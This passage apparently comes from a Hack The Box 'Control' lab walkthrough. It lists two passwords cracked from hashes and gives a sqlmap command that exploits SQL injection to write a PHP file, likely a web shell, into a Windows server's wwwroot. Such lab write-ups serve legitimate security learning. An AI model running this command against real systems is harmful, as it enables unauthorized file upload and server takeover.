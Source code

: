 Cracked it via using CrackStation

```bash
l33th4x0rhector
l3tm3!n
```

![image.png](/assets/Images/HTB_Control/image%2015.png)

Using sqlmap to write a file on the server because we know this is a windows machine so the command path to upload the file is under `wwwroot`

```bash
sqlmap -r products.req --risk 3 --level 4 --batch --file-write pain.php --file-dest 'C:\inetpub\wwwroot\pain.php'
```
